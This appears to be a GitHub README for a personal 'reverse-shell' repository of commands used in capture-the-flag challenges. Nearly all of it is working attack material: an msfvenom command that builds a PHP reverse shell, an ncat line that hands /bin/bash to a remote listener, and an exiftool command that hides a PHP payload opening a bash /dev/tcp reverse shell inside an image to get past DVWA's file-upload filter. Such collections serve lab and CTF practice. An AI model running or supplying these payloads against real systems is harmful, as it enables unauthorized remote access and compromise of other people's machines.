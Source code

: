 # reverse-shell
While working on various CTF challenges, I discovered the need for reverse shell scripts to gain remote access to compromised systems.
With the goal of streamlining this process, I compiled a list of useful scripts that I have personally used in CTF competitions.

Although there are numerous resources available online, I created this repository primarily for my own reference.
However, I am sharing it here to provide others with access to these scripts, which can be used at their discretion.

It is important to note that these scripts should only be used for legitimate purposes, such as remote administration of systems or troubleshooting.
Any misuse of these scripts is strictly prohibited and may result in legal consequences.


# Generate custom shell
msfvenom -p php/reverse_php lport=4444 lhost=192.168.29.4 > ./php_reverse_shell.php


# Find shell into local system
locate reverse | grep php

# ncat shell on Linux Server
Server: ncat 192.168.29.1 4444 -e /bin/bash

Client: nc -lnvp 4444

# DVWA File Upload high
exiftool -Comment="<?php \$command = '/bin/bash -c \"bash -i >& /dev/tcp/192.168.29.4/4444 0>&1\"'; \$output = shell_exec(\$command); echo \$output; ?>" dvwa_error.png
